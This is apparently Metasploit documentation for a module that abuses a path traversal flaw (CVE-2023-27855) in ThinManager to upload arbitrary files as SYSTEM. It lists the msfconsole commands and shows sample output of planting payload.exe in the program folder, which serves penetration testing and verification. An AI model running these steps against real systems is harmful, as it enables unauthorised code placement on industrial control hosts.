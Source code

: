 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.0.1 (CVE-2023-27855) to upload an arbitrary file to the target
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.0.1 on Windows 22H2
- ThinManager v13.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v10.0.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/admin/networking/thinmanager_traversal_upload 
msf6 auxiliary(admin/networking/thinmanager_traversal_upload) > set RHOSTS <IP>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload) > set LFILE <local file location>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload) > set RFILE <remote file location>
msf6 auxiliary(admin/networking/thinmanager_traversal_upload) > run
```

This should upload the local file specified through LFILE to the server, as specified in RFILE.

## Options

### LFILE
Specifies the local file to upload to the remote server.

### RFILE
Specifies the remote file location where the file will be uploaded to.

## Scenarios

Running the exploit against ThinManager v13.0.1 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(admin/networking/thinmanager_traversal_upload) > run
[*] Running module against 192.168.137.227

[*] 192.168.137.227:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.227:2031 - The service is running, but could not be validated.
[*] 192.168.137.227:2031 - Sending handshake...
[*] 192.168.137.227:2031 - Received handshake response.
[*] 192.168.137.227:2031 - Read 27648 bytes from /tmp/payload.exe
[*] 192.168.137.227:2031 - Uploading /tmp/payload.exe as /Program Files/Rockwell Software/ThinManager/payload.exe on the remote host...
[*] 192.168.137.227:2031 - Upload request length: 27752 bytes
[!] 192.168.137.227:2031 - No response received after upload.
[+] 192.168.137.227:2031 - Upload process completed. Check if '/Program Files/Rockwell Software/ThinManager/payload.exe' exists on the target.
[*] Auxiliary module execution completed
```
